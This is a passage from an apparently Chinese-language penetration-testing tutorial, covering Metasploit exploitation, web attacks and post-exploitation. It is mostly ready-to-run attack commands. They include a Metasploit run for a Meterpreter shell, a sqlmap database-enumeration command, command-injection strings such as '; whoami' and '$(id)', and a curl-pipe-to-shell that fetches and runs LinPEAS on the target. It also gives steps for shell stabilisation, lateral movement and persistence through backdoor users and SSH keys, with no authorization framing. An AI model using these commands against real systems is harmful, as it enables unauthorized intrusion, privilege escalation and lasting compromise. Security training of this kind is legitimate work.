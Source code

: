 ```bash
msf6 exploit(...) > set TARGETURI /cgi-bin/test.sh

# 运行攻击
msf6 exploit(...) > run
# 或者
msf6 exploit(...) > exploit

# 如果成功，你将获得一个Meterpreter shell。
```

#### 3. 利用Web漏洞
*   **SQL注入**: 使用 `sqlmap`
    ```bash
    sqlmap -u "http://<目标IP>/page.php?id=1" --batch --dbs
    ```
*   **文件上传漏洞**: 上传一个Web Shell (如PHP一句话木马)，然后用浏览器或工具连接。
*   **命令注入**: 尝试在参数中拼接系统命令 (`; whoami`, `| id`, `$(id)`)。

---

### 第四阶段：后渗透攻击 (Post-Exploitation)

一旦获得初始访问权限（一个shell），接下来的目标是：

1.  **稳定Shell**: 将不稳定的shell升级为完全交互式的TTY。
    ```bash
    # 在获得的简单shell中执行
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    (Ctrl+Z) # 回到本地终端
    stty raw -echo; fg # 输入后按两次回车
    export TERM=xterm
    ```

2.  **权限提升 (Privilege Escalation)**:
    *   **内核漏洞**: 搜索本地Exp (e.g., `DirtyCow`, `DirtyPipe`)。使用脚本自动化搜索：
        ```bash
        # 上传并运行 LinPEAS (最强Linux提权脚本)
        # 在目标机上： curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
        ```
    *   **错误配置**: 检查SUID文件、sudo权限、计划任务、世界可写文件等。LinPEAS也会检查这些。

3.  **横向移动 (Lateral Movement)**:
    *   在系统内部搜集密码、密钥、配置文件。
    *   尝试用找到的密码连接其他机器（密码重用）。
    *   破解密码哈希。

4.  **持久化 (Persistence)**:
    *   添加SSH密钥。
    *   创建计划任务或系统服务。
    *   创建后门用户。

---